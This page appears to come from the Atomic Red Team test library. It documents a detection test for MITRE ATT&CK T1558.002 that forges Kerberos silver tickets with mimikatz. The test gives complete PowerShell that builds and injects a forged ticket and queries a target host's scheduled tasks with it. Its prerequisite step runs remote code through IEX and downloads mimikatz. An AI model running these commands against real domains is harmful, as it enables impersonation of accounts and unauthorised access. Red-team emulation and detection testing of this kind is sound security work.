```yaml
---
tags: [T1558_002, atomic_test]
filename: "[[T1558.002|T1558.002 - Steal or Forge Kerberos Tickets: Silver Ticket]]"
---
```

# T1558.002 - Steal or Forge Kerberos Tickets: Silver Ticket

## Atomic Test #1 - Crafting Active Directory silver tickets with mimikatz
Once the hash of service account is retrieved it is possible to forge Kerberos ticket granting service (TGS) tickets, also known as silver tickets.
The generated ticket is injected in a new empty Windows session and discarded after, so it does not pollute the current Windows session.

**Supported Platforms:** Windows


**auto_generated_guid:** 385e59aa-113e-4711-84d9-f637aef01f2c





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| domain_sid | SID of the targeted domain, if you keep default it will automatically get the current domain SID | string | S-1-5-21-DEFAULT|
| domain | Targeted Active Directory domain FQDN | string | %userdnsdomain%|
| account | Account to impersonate | string | silverticketfakeuser|
| target | System you want to target (Default will be logon server) | string | %logonserver:&#92;&#92;=%|
| service_aes256_key | AES256 key (you will need to set to match your service key for your target) | string | b7268361386090314acce8d9367e55f55865e7ef8e670fbe4262d6c94098a9e9|
| mimikatz_path | Mimikatz windows executable | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;mimikatz&#92;x64&#92;mimikatz.exe|


#### Attack Commands: Run with `powershell`! 


```powershell
Remove-Item $env:TEMP\silver.bat -ErrorAction Ignore
Remove-Item $env:TEMP\silver.txt -ErrorAction Ignore

# get current domain SID if default was used
$domain_sid = "#{domain_sid}"
If ($domain_sid -Match "DEFAULT") {
  # code from https://www.sevecek.com/EnglishPages/Lists/Posts/Post.aspx?ID=60
  $domain = gwmi Win32_ComputerSystem | Select -Expand Domain
  $krbtgtSID = (New-Object Security.Principal.NTAccount $domain\krbtgt).Translate([Security.Principal.SecurityIdentifier]).Value
  $domain_sid = $krbtgtSID.SubString(0, $krbtgtSID.LastIndexOf('-'))
}

# create batch file with commands to run in a separate "runas /netonly" session
# so we don't purge Kerberos ticket from the current Windows session
# its output goes to silver.txt temp file, because we cannot capture "runas /netonly" output otherwise
@"
>%TEMP%\silver.txt 2>&1 (
  echo Purge existing tickets and create silver ticket:
  klist purge
  #{mimikatz_path} "kerberos::golden /domain:#{domain} /sid:DOMAIN_SID /aes256:#{service_aes256_key} /user:#{account} /service:HOST /target:#{target}.#{domain} /ptt" "exit"

  echo.
  echo executing:schtasks /query /S #{target}.#{domain}
  schtasks /query /S #{target}.#{domain}
  
  echo.
  echo Tickets after requesting schtasks:
  klist

  echo.
  echo End of Silver Ticket attack
)
"@ -Replace "DOMAIN_SID", $domain_sid | Out-File -Encoding OEM $env:TEMP\silver.bat

# run batch file in a new empty session (password and username do not matter)
echo "foo" | runas /netonly /user:fake "$env:TEMP\silver.bat" | Out-Null

# wait until the output file has logged the entire attack
do {
  Start-Sleep 1 # wait a bit so the output file has time to be created
  Get-Content -Path "$env:TEMP\silver.txt" -Wait | ForEach-Object {
    if ($_ -match 'End of Silver Ticket attack') { break } 
  }
} while ($false) # dummy loop so that 'break' can be used

# show output from new empty session
Get-Content $env:TEMP\silver.txt

# cleanup temp files
Remove-Item $env:TEMP\silver.bat -ErrorAction Ignore
Remove-Item $env:TEMP\silver.txt -ErrorAction Ignore
```




#### Dependencies:  Run with `powershell`!
##### Description: Mimikatz executor must exist on disk and at specified location (#{mimikatz_path})
##### Check Prereq Commands:
```powershell
$mimikatz_path = cmd /c echo #{mimikatz_path}
if (Test-Path $mimikatz_path) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-FetchFromZip.ps1" -UseBasicParsing) 
$releases = "https://api.github.com/repos/gentilkiwi/mimikatz/releases"
$zipUrl = (Invoke-WebRequest $releases | ConvertFrom-Json)[0].assets.browser_download_url | where-object { $_.endswith(".zip") }
$mimikatz_exe = cmd /c echo #{mimikatz_path}
$basePath = Split-Path $mimikatz_exe | Split-Path
Invoke-FetchFromZip $zipUrl "x64/mimikatz.exe" $basePath
```




<br/>
